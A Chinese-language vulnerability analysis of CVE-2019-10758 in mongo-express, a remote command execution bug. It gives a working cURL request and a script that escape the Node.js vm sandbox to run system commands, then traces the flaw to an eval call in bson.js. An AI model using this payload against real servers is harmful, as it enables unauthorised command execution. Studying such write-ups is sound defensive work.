

# （CVE-2019-10758）Mongo expres 远程命令执行漏洞

> 原文：[http://book.iwonder.run/0day/Mongo DB/CVE-2019-10758.html](http://book.iwonder.run/0day/Mongo DB/CVE-2019-10758.html)

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

## cURL exploit

```
curl 'http://localhost:8081/checkValid' -H 'Authorization: Basic YWRtaW46cGFzcw=='  --data 'document=this.constructor.constructor("return process")().mainModule.require("child_process").execSync("/Applications/Calculator.app/Contents/MacOS/Calculator")' 
```

## Script exploit

```
node main.js
exploit = "this.constructor.constructor(\"return process\")().mainModule.require('child_process').execSync('/Applications/Calculator.app/Contents/MacOS/Calculator')"

var bson = require('mongo-express/lib/bson')
bson.toBSON(exploit) 
```

很明显从 exploit 中我们能明显得出以下两个结论：

1.  存在 RCE 漏洞的代码位于 `mongo-express/lib/bson`
2.  路由 `/checkValid` 从外部接收输入，并调用了存在 RCE 漏洞的代码，由此存在被攻击的风险

首先定位可以接受外界输入的路由 [https://github.com/mongo-express/mongo-express/blob/v0.53.0/lib/router.js：](https://github.com/mongo-express/mongo-express/blob/v0.53.0/lib/router.js：)

首先定位可以接受外界输入的路由 [https://github.com/mongo-express/mongo-express/blob/v0.53.0/lib/router.js：](https://github.com/mongo-express/mongo-express/blob/v0.53.0/lib/router.js：)

```
const router = function (config) {
  // 省略其他无关代码
  const appRouter = express.Router();
  appRouter.post('/checkValid', mongoMiddleware, configuredRoutes.checkValid);
  return appRouter;
} 
```

继续定位 [https://github.com/mongo-express/mongo-express/blob/v0.53.0/lib/routes/document.js：](https://github.com/mongo-express/mongo-express/blob/v0.53.0/lib/routes/document.js：)

```
var routes = function (config) {
  // 省略其他无关代码
  var exp = {};
  exp.checkValid = function (req, res) {
    var doc = req.body.document;
    try {
      bson.toBSON(doc);
    } catch (err) {
      console.error(err);
      return res.send('Invalid');
    }

    res.send('Valid');
  };
  return exp;
} 
```

可以很明显看到这里会从 POST 请求中读取 `document` 并作为参数继续调用 `bson.toBSON(doc);`，而根据我们之前的分析，漏洞代码有 99% 的可能性位于 `bson.toBSON` 函数内，所以继续分析源码，[https://github.com/mongo-express/mongo-express/blob/v0.53.0/lib/bson.js：](https://github.com/mongo-express/mongo-express/blob/v0.53.0/lib/bson.js：)

```
var mongodb = require('mongodb');
var vm      = require('vm');
var json    = require('./json');

// 省略一些无关代码

//JSON.parse doesn't support BSON data types
//Document is evaluated in a vm in order to support BSON data types
//Sandbox contains BSON data type functions from node-mongodb-native
exports.toBSON = function (string) {
  var sandbox = exports.getSandbox();

  string = string.replace(/ISODate\(/g, 'new ISODate(');
  string = string.replace(/Binary\(("[^"]+"),/g, 'Binary(new Buffer($1, "base64"),');

  vm.runInNewContext('doc = eval((' + string + '));', sandbox);

  return sandbox.doc;
};

// This function as the name suggests attempts to parse
// the free form string in to BSON, since the possibilities of failure
// are higher, this function uses a try..catch
exports.toSafeBSON = function (string) {
  try {
    var bsonObject = exports.toBSON(string);
    return bsonObject;
  } catch (err) {
    return null;
  }
}; 
```

重点出现！>>> `vm.runInNewContext('doc = eval((' + string + '));', sandbox);`

对 nodejs 的沙箱逃逸有所关注的朋友很容易就能注意到这段代码和 vm 沙盒逃逸代码 demo 的惊人相似：

```
const vm = require('vm');

vm.runInNewContext('this.constructor.constructor("return process")().exit()'); 
```

在这里，由于用户输入的最终会被拼接上 `eval`，所以很容易就能导致 RCE。可以看到作者的 exploit 就是获得全局上下文后直接导入 `child_process` 来执行系统命令：

```
this.constructor.constructor("return process")().mainModule.require('child_process').execSync('/Applications/Calculator.app/Contents/MacOS/Calculator') 
```



不过由于这是个没有回显的 RCE，因此在实际漏洞利用的时候可能需要反弹 shell 之类的操作来辅助漏洞的利用。

